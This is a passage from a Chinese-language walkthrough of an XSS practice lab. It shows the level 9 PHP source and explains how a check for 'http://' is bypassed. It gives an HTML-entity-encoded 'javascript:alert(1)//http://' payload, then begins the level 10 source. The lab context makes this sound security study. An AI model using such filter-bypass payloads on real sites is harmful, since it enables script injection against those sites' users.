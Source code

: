```php
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
<center><img src=level9.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str7)."</h3>";
?>
</body>
</html>
```



```bash
strpos($str7, 'http://')函数用于在字符串中查找子字符串http://的位置。如果找到了子字符串，则返回子字符串的起始位置（也就是一个非负整数值）。如果没有找到子字符串，则返回false。

false===strpos($str7,'http://') 如果strpos($str7, 'http://')的返回值为false且类型为布尔值（即完全相等），则条件成立。
```

### 注入过程

正常注入，查看源代码

[![img](https://img.cccb.rr.nu/path/202504101640318.png)](https://gitee.com/Look___back/image/raw/master/Typora_img/202307131647606.png)

显示链接不合法？意思是让我们输入个待http://的值？试着输入以下，查看源代码。

[![img](https://img.cccb.rr.nu/path/202504101640319.png)](https://gitee.com/Look___back/image/raw/master/Typora_img/202307131648302.png)

诶，好像链接合法了，但是http://在前面是无法执行JavaScript，那么如何去除呢，我们想到这个是php代码，是不是可以用双斜杠进行注释，[[http://放到最后面不就注释掉了嘛](http://xn--ihq6k20hw8bcydbun9ln0jd05edotrw9g49n/)](http://xn--ihq6k20hw8bcydbun9ln0jd05edotrw9g49n)。注意这关也需要实体化字符串。

payload：



```less
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;//http://
```

## Level10 (隐藏参数+hidden修改)

### 源码



```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level11.php?keyword=good job!"; 
}
</script>
<title>欢迎来到level10</title>
</head>
<body>
```